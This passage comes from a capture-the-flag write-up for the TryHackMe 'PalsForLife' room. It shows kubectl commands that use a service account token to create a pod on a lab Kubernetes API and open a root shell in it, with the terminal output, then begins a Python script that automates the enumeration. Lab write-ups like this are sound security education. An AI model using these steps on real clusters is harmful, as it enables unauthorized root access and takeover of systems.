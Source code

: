 - Create a new pod:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify create -f pod.yaml                      
pod/pod created
```

- Verify the new pod is created:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify get pods                                  
NAME                     READY   STATUS    RESTARTS   AGE
[...]
pod                      1/1     Running   0          12s
```

- Spawn a root shell:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify exec --tty --stdin pod '/bin/bash'
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
bash-4.4# whoami;hostname;id;ip a
root
pod
uid=0(root) gid=0(root) groups=1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[...]
3: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 8951 qdisc noqueue state UP 
    link/ether 0a:90:b4:68:b7:62 brd ff:ff:ff:ff:ff:ff
    inet 10.42.0.15/24 brd 10.42.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::890:b4ff:fe68:b762/64 scope link 
       valid_lft forever preferred_lft forever
```

And I'm root! :D

> Note: I also made a [simple python script](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/PalsForLife/enumk8s.py) to automate this exploit process. :D

```py
#!/usr/bin/env python3

import argparse
import os
from colorama import Fore, init
import time

init(autoreset=True)

parser = argparse.ArgumentParser(description="This is an semiautomated python script that enumerating kubernetes cluster in 'PalsForLife' room in TryHackMe.")
parser.add_argument("-t", "--token", help="Service account token")
parser.add_argument("-u", "--url", help="The target machine's URL. E.g. https://10.10.44.205")
parser.add_argument("-p", "--port", help="The port of the URL")
args = parser.parse_args()

def get_auth():
    command = f"kubectl --server {args.url}:{args.port} --token {args.token} --insecure-skip-tls-verify auth can-i --list"
    os.system(command)

```